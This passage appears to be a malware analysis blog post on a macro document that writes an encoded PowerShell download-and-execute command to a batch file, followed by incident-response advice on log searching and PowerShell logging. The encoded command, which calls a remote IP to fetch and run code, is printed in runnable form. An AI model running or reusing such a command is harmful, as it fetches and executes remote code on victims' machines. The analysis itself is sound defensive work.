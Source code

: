 ```
powershell.exe -exec bypass -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADMALgAzADYALgAyADEAMQAuADEANwA2AC8AcgBzAC4AdAB4AHQAJwApACkA
```

This is the command being written to the d.bat file. The powershell command takes in an encoded input, which can be easily decoded from base64 to String.

Decoded input: `IEX ((new-object net.webclient).downloadstring('hxxp://13[.]36[.]211[.]176/rs.txt'))`

I've defanged the input, but IEX instructs Powershell to execute an expression. The expression itself is not present in this Macro. Instead, it is downloaded from the file rs.txt in the remote server 13[.]36[.]211[.]176. Unfortunately, the server is no longer active and we are unable to access this file. 

Without the file rs.txt, we cannot further proceed in the analysis. But we can deduce that rs.txt contained some PowerShell commands that would have been downloaded as String and executed by the Macro. Based on experience, the powershell commands most likely involded downloading another malicious file and executing it on the host. 

This would be in line with the purpose of such maldocs, to act as a dropper for malware.  

# Summary

The provided docx file "*curriculum_BAT.docm*" contains a Macro that is intended to download and execute commands from a remote file. We were unable to acquire the remote commands as they no longer exist on the remote server. Based on conjecture, we can assume that it was intended to download other malicious files onto the host. 


## Incident Response

I'd like to briefly talk about how the above analysis benefits an organization. Malware analysts are a valuable resource and not every organization can afford to employ them full time. But having access to them provides valuable data for the Incident Responders in the organization. 

For example, in this case, Incident Response (IR) team are armed with the information that any http traffic to the URI 13[.]36[.]211[.]176/rs.txt is malicious. This allows the IR team to fan out and search their network logs for any host that contacted the above URI. The IR team also knows that from a quick search on PassiveTotal that the ip address was first seen on 2021-01-01 and last seen on 2021-05-15. This provides a time frame for performing log dives. 

If the organization has a mature security posture, they would be logging all Powershell comamnds being executed on their hosts. Based on above time frame, and potential list of affected hosts, IR team can perform log dives by pulling various forensic artificats (Windows Event logs for Powershell is a topic for a separate blog post). This will not only provide confirmation of compromise, but might also yield the PowerShell command(s) we were unable to obtain from the remote server. 

This is tangential to Malware Analysis but pertinent to the overall Incident Response plan. Take a look at one of my favorite articles on configuring Powershell Logs from [FireEye](https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html) and an article on the [event ids](https://nsfocusglobal.com/Attack-and-Defense-Around-PowerShell-Event-Logging) to focus on during log diving.
